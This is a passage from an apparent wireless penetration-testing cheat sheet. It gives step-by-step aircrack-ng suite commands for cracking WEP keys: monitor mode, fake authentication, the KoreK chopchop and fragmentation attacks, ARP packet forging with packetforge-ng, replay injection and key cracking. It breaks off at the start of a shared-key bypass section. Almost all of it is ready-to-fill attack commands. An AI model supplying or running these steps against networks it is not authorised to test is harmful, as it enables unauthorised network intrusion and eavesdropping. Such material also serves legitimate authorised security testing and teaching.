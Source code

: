 Once enough IVs have been captured, crack the WEP key:

```
aircrack-ng -z <capture>
```

### WEP - Clientless<a name="WEP-Clientless"></a>

Place your wireless card into monitor mode on the channel number of the AP:

```
airmon-ng start <interface> <AP channel>
```

Conduct a fake authentication attack against the AP:

```
aireplay-ng -1 0 -e <ESSID> -a <AP MAC> -h <Your MAC> <interface>
```

Run attack 4, the KoreK chopchop attack (or attack 5, the fragmentation attack):

### KoreK Chop Chop Attack
```
aireplay-ng -4 -b <AP MAC> -h <Your MAC> <interface>
````

### Fragmentation Attack
```
aireplay-ng -5 -b <AP MAC> -h <Your MAC> <interface>
```

Craft an ARP request packet using packetforge-ng:

```
packetforge-ng -0 -a <AP MAC> -h <Your MAC> -l <Source IP> -k <Dest IP> -y <xor filename> -w <output filename>
```

Inject the packet into the network using attack 2, the interactive packet replay attack:

```
aireplay-ng -2 -r <packet filename> <interface>
```

Crack the WEP key using Aircrack-ng:

```
aircrack-ng <capture>
```

### WEP - Bypassing Shared Key Authentication<a name="WEP-Bypass-SKA"></a>

Place your wireless card into monitor mode on the channel number of the AP:

```
airmon-ng start <interface> <AP channel>
```
